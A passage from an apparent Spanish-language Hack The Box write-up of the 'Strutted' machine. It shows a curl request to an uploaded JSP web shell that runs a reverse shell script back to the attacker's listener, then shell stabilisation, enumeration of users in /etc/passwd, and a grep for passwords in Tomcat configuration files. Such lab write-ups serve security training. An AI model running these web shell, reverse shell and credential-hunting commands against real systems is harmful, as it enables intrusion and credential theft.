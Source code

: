 Me puse a es escuchá por el puerto configurado y finalmente ejecuté el script para establecer la conexion.

```terminal
/home/kali/Documents/htb/machines/strutted:-$ curl http://strutted.htb/shell.jsp?cmd=/bin/bash%20/tmp/revsh.sh

	... connect to [10.10.15.88] from (UNKNOWN) [10.10.11.59] 50252

tomcat@strutted:~$ id
uid=998(tomcat) gid=998(tomcat) groups=998(tomcat)
```

---
## Lateral Movement

```terminal
tomcat@strutted:~$ script /dev/null -c bash
tomcat@strutted:~$ export TERM=xterm
tomcat@strutted:~$ export SHELL=bash
```

Listé los usuarios con shell interactiva en el sistema y el usuario `james` destacó como potencial objetivo.

```terminal
tomcat@strutted:~$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
james:x:1000:1000:Network Administrator:/home/james:/bin/bash
```

Busqué archivos pertenecientes al grupo tomcat `GID 998`.

```terminal
tomcat@strutted:~$ find / -group 998 2>/dev/null | grep -v '/proc/\|/var/\|/tmp/'
```

![](assets/img/htb-writeup-strutted/strutted4_1.png)

Dentro de `/etc/tomcat9/`, encontré el archivo `tomcat-users.xml`, que contené credenciales de un usuario administrador del panel web de Tomcat.

```terminal
tomcat@strutted:~$ grep -rE 'password=' /etc/tomcat9/ 2>/dev/null
```
